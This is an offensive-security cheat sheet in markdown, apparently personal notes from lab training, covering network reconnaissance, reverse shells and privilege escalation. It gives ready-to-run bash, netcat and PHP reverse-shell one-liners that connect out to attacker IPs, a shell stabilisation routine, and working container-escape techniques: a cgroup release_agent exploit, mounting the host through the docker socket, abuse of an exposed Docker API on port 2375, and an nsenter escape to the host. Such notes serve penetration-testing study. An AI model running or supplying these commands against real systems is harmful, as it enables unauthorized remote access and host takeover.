 # Reconnaissance

## Passive

## Active

### Host discovery via ARP Scan

Scan hosts in local subnet:

#### Use arp-scan

arp-scan -l

arp-scan -l -I eth0

#### Use nmap

nmap -sn -PR <targets>

### Host discovery via ICMP scan

#### ICMP Ping scan (ICMP Type8/0):

nmap -sn -PE <targets>

#### ICMP Timestamp (ICMP Type 13/14):

nmap -sn -PP <targets>

#### ICMP Address Mask (ICMP Type 17/18):

nmap -sn -PM <targets>

### Host discovery via TCP/UDP

#### TCP SYN ping (<ports> optional; port 80 by default):

nmap -sn -PS<ports> <targets>

#### TCP ACK ping (<ports> optional; port 80 by default, needs root priv):

nmap -sn -PA<ports> <targets>

#### UDP ping

nmap -sn -PU <targets>

#### masscan

To use masscan as host discovery we limit ports with `-p`:

masscan -p<port> <targets>

### Host discovery via Reverse-DNS Lookup

Query DNS server even for offline hosts:

nmap -sn -R <targets>

# Reverse shell

## Bash reverse shell

The simplest method is to use bash, which is available on almost all Linux machines. This script was tested on Ubuntu 18.04, but not all versions of bash support this function:

/bin/bash -i >& /dev/tcp/10.10.205.203/9999 0>&1

or

$ exec 5<>/dev/tcp/10.10.205.203/9999
$ cat <&5 | while read line; do $line 2>&5 >&5; done

## Netcat reverse shell

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.205.203 1234 >/tmp/f

## PHP reverse shell

If the target machine is a web server that supports PHP, this language will be an excellent choice for a reverse shell:

php -r '$sock=fsockopen("10.10.17.1",1337);exec("/bin/sh -i <&3 >&3 2>&3");'

If this does not work, you can try replacing &3 with consecutive file descriptors.


## Stablize remote shell

If you would like to "stabilize your shell" for easier ability in typing commands, you can use the usual upgrade trick (assuming you are running in a bash shell. If you are running within zsh, you will need to have started your netcat listener within a bash subshell... it should be easy enough to re-exploit):


(on the reverse shell) python3 -c "import pty; pty.spawn('/bin/bash')"

(press on your keyboard) Ctrl+Z

(press on your keyboard) Enter

(on your local host) stty raw -echo

(on your local host) fg (you will not see your keystrokes -- trust yourself and hit Enter)

(press on your keyboard) Enter

(press on your keyboard) Enter

(on the reverse shell) export TERM=xterm

You now have a stable shell, where you can safely use the left-and-right arrow keys to move around your input, up-and-down arrow keys to revisit command history, Tab for autocomplete and safely Ctrl+C to stop running programs!

# Priv escalation

## Check sudo

sudo -l

## Privlidged container escape


### Exploit privlidged capabilities


1. capsh --print
Check capabilities first

2.
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exploit
echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

Note: We can place whatever we like in the /exploit file (step 5). This could be, for example, a reverse shell to our attack machine.

### Exploiting docker socket

1. ls -la /var/run | grep sock
srw-rw---- 1 root docker 0 Dec 9 19:37 docker.sock

confirm you can run docker commands (be root in container or be in docker group as a lower-privileged user)
 
2. docker run -v /:/mnt --rm -it alpine chroot /mnt sh

### Exposed Docker port 2375

1. curl http://10.10.85.243:2375/version

2. docker -H tcp://10.10.85.243:2375 ps

Now that we've confirmed that we can execute docker commands on our target, we can do all sorts of things. For example, start containers, stop containers, delete them, or export the contents of the containers for us to analyse further.

### Namespace abuse

For this vulnerability, we will be using nsenter (namespace enter). This command allows us to execute or start processes, and place them within the same namespace as another process. In this case, we will be abusing the fact that the container can see the "/sbin/init" process on the host, meaning that we can launch new commands such as a bash shell on the host. 

Use the following exploit: nsenter --target 1 --mount --uts --ipc --net /bin/bash

